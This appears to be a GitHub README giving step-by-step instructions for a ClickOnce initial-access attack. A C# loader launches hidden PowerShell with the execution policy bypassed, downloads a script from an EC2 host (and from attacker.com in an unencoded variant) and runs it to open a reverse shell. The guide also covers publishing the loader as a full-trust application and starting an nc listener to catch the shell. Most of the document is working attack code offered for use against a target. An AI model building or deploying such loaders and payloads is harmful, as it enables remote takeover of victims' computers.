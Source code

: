 ## 1. Create lscript.application

1. Go to Visual Studio Community edition to create the loader.
2. Create a C# Console application for Windows
3. In lscript.cs, write the following code ->

```
using System.Diagnostics;

static class Program {
    [System.STAThread]
    static void Main() {
        string encoded = "<Base64_Download_Command>";
        string psArgs = $"-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand {encoded}";
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,
            UseShellExecute = false
        };
        Process.Start(psi);
    }
}
```

4. Change the Uri to the EC2 instance with the **perfect.ps1** script. Run the below command in Mac/Linux,

```
echo "Invoke-WebRequest -Uri 'http://ec2-3-253-172-6.eu-west-1.compute.amazonaws.com:80/perfect.ps1' -OutFile 'perfect.ps1'; powershell -ExecutionPolicy Bypass -File 'perfect.ps1'" | iconv -t UTF-16LE | base64 -w 0
```
5. Replace the above Base64 output to <Base64_Download_Command> on the lscript.cs file.
6. You have to host the perfect.ps1, go to https://www.revshells.com, change the reverse shell IP to the public IP and port as 9999.
7. Create a Powershell base64 payload, copy and save it in the EC2 instance.
8. Open port 9999 from the security group for the public IP.

## 2. Publishing the exploit

1. Go to Visual Studio on the Windows machine.
2. Right click, choose **Properties**, then **Security**, Enable **ClickOnce Security Settings, This is a full trust application**.
3. This application is available offline and startable from Start Menu, click **Publish**.

## 3. Exploitation

1. Run **sudo python -m http.server 9999**
2. Go to your EC2 Instance, make sure there is an inbound rule entry in the security groups for port 9999 for only the public IP of the target device that will be used.
3. Start the listener with ```nc -lnvp 9999```
4. Execute the _lscript.application_ file on the target device.
5. Check the listener.


```
# Unencoded lscript.cs file

using System.Diagnostics;

static class Program {
    [System.STAThread] // (Use STA if a GUI/WinForms app; not needed for pure console)
    static void Main() {
        // Prepare PowerShell command (e.g., reverse shell or arbitrary script)
        string psArgs = "-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass "
                      + "-Command \"Invoke-WebRequest -Uri 'http://attacker.com/payload.ps1' -OutFile 'payload.ps1'; "
                      + "powershell -ExecutionPolicy Bypass -File 'payload.ps1'\"";
        // Configure process start info to launch PowerShell
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,   // no new window for PowerShell
            UseShellExecute = false  // required for CreateNoWindow
        };
        Process.Start(psi);
    }
}
```
